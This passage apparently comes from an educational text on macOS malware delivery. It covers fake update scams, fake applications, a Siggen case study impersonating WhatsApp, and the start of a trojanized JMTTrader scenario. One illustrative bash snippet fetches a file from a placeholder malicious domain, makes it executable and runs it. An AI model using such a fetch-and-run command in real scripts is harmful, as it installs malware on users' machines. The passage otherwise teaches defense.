 **Protecting Against Fake Update Scams**

Guarding against fake update scams entails a blend of user education, updated security software, and a healthy dose of skepticism towards unsolicited update prompts. Employing reputable ad-blockers and maintaining software through official channels further bolster the defenses against such deceptive tactics.

**Fake Applications**

Fake applications thrive on the camouflage of legitimacy, often impersonating popular or essential software. Unlike trojanized applications, which retain the functionality of the original software while harboring malicious code, fake applications primarily serve as a vessel for delivering malicious payloads. Here’s a simplified example of a fake application’s code structure:

```
# A simplistic representation of a fake application's code

#!/bin/bash

# Malicious payload

curl -O http://malicious-domain.com/malicious-file && chmod +x malicious-file && ./malicious-file

exit
```

**Case Study: Siggen Masquerading as WhatsApp**

Siggen, a malicious application targeting Mac users, impersonated the widely-used WhatsApp messaging application. The attacker-controlled site, message-whatsapp.com, would entice users to download a ZIP archive named WhatsAppWeb.zip. However, instead of the legitimate WhatsApp application, the archive contained a malicious application named WhatsAppService. Here’s a simplified representation of how the malicious file could be structured within the ZIP archive:

# Inside WhatsAppWeb.zip

WhatsAppService.app/Contents/MacOS/WhatsAppService

Upon executing WhatsAppService, the malicious payload within springs into action, showcasing the effectiveness of fake applications as a malware delivery mechanism.

**Detecting and Avoiding Fake Applications**

The frontline defense against fake applications lies in meticulous verification of the software source. Downloading applications exclusively from reputable sources such as the Mac App Store or official vendor websites significantly mitigates the risk. Additionally, employing reputable security solutions capable of identifying and blocking fake applications further fortifies the defense against such deceptive tactics.

## **Trojanized Applications**

Let’s traverse the malicious journey through the lens of an employee enticed to try a new cryptocurrency trading application named JMTTrader. The setup is meticulously crafted, from a persuasive email to a professional-looking website hosting the download link for JMTTrader. Yet, beneath the polished exterior lurks a nefarious intent.
